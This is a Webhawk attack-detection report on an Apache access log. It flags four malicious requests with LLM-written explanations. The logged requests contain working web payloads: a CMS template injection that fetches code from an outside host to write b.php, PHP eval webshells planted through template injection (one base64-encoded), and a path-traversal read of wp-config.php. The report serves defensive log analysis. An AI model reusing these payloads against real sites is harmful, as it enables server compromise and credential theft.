

Webhawk Catch ReportUnsupervised learning Web logs/OS processes attack detection. Date: 03/06/25 at 19:40:30 GMTLog file: /Users/walid/Downloads/access.log.2024-09-20 Log type: apache logs Findings: 4 |
 |
| Severity | Related CVE(s) | Line# | LLM Insights | Log line |
| High | No CVE found | 356 | This log line appears to show malicious activity. The URL contains a "file_put_contents" function, which is used to write data to a file, and "file_get_contents" functions that can be exploited to upload files (e.g., PHP backdoor). | 118.107.9.17 - - [20/Sep/2024:09:48:54 -0700] "GET /?tag&tagstpl=news.html&tag=%7Bpbohome/Indexot:if((get/*-*/(/**/t))/**/(get/*-*/(/**/t1)#get/*-*/(/**/t2)(get/*-*/(/**/t3))))%7Dok%7B/pbohome/Indexot:if%7D&t=file_put_contents&t1=b.php&t2=file_get_contents&t3=https://c.krobpra.com/bpcms/1.txt HTTP/1.1" 200 13184 "-" "Mozilla/5.0 (Windows NT 10.0# WOW64# rv:48.0) Gecko/20100101 Firefox/48.0" |
| High | No CVE found | 692 | This log line appears to show a malicious activity, specifically a base64-encoded PHP script attempting to write a file with a potentially malicious payload to the server's runtime directory, exploiting vulnerabilities in PHP and possible command injection through `file_put_contents`. | 118.107.9.17 - - [20/Sep/2024:12:54:07 -0700] "GET /?a=fetch&templateFile=&prefix=&content=%3Cphp%3Efile_put_contents%3C/php%3E%3Cphp%3E('./data/runtime/Logs/Portal/404.php'#%3C/php%3E%3Cphp%3Eurldecode%3C/php%3E%3Cphp%3E(urldecode%3C/php%3E%3Cphp%3E(%3C/php%3E%3Cphp%3Ebase64_decode%3C/php%3E%3Cphp%3E(%22NDA0IGNlY2FsbDw/cGhwICRhYj0kX1JFUVVFU1RbNzddOztldmFsKCRhWzJdLiRhYik7Pz4=%22))))%3C/php%3E HTTP/1.1" 200 13184 "-" "python-requests/2.32.3" |
| High | No CVE found | 693 | This log line appears to be malicious as it shows a PHP script attempting to execute system commands, specifically `file_put_contents`, which is used to write to the file system, and `eval()` to execute user-controlled input (`$a[2].$ab)` potentially leading to code injection. | 118.107.9.17 - - [20/Sep/2024:12:54:07 -0700] "GET /?a=display&templateFile=%3C%3Fphp%20file_put_contents%28%27.%2Fdata%2Fruntime%2FLogs%2FPortal%2Flog.php%27%2C%27404%207call%3C%3Fphp%20%24ab%3D%24_REQUEST%5B77%5D%3B%3Beval%28%24a%5B2%5D.%24ab%29%3B%3F%3E HTTP/1.1" 418 747 "-" "python-requests/2.32.3" |
| High | No CVE found | 862 | This log line indicates a potential security breach. The client's IP address is logging a GET request to access the wp-config.php file, which contains sensitive database credentials and site information, suggesting a possible vulnerability in the website's file inclusion vulnerabilities or plugin exploitation. | 43.229.114.104 - - [20/Sep/2024:15:08:57 -0700] "GET /wp-content/plugins/web-portal-lite-client-portal-secure-file-sharing-private-messaging/includes/libs/pdf/dompdf.php?input_file=../../../../../../wp-config.php HTTP/1.1" 418 747 "-" "Mozilla/5.0 (Android 14# Mobile# LG-M255# rv:127.0) Gecko/127.0 Firefox/127.0" |